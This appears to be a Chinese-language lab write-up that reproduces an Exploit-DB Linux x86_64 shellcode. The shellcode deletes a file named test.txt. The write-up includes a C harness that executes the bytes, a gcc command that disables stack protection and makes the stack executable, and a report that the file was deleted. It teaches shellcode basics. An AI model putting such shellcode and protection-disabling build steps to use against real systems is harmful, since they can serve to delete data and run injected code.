 #### 【3】[Linux/x86_64 - Delete File (test.txt) Shellcode](https://www.exploit-db.com/shellcodes/46870)

* 实现：删除test.txt文件  
  * 代码：
 ```c
    #include <stdio.h>
    #include <string.h>
    char sh[]="\xeb\x0d\x6a\x57\x58\x5f\x0f\x05\x48"
          "\x31\xc0\xb0\x3c\x0f\x05\xe8\xee\xff"
          "\xff\xff\x74\x65\x73\x74\x2e\x74\x78\x74";
    void main(int argc, char **argv)
    {
        printf("Shellcode Length: %d\n", strlen (sh));
        int (*func)();
        func = (int (*)()) sh;
        (int)(*func)();
    }
 ```
* 在 Ubuntu16.04 虚拟机下新建`shellcode.c`文件，并将 C 语言代码粘贴到该文件中  
    ![](image/9.png)  
    ![](image/8.png) 
* 将 C 语言文件编译链接成可执行文件shell   
  * `gcc -fno-stack-protector -z execstack shell.c -o shell` 
* 使用`./shell`运行，可以发现test.txt文件确实被删除了，程序运行成功！
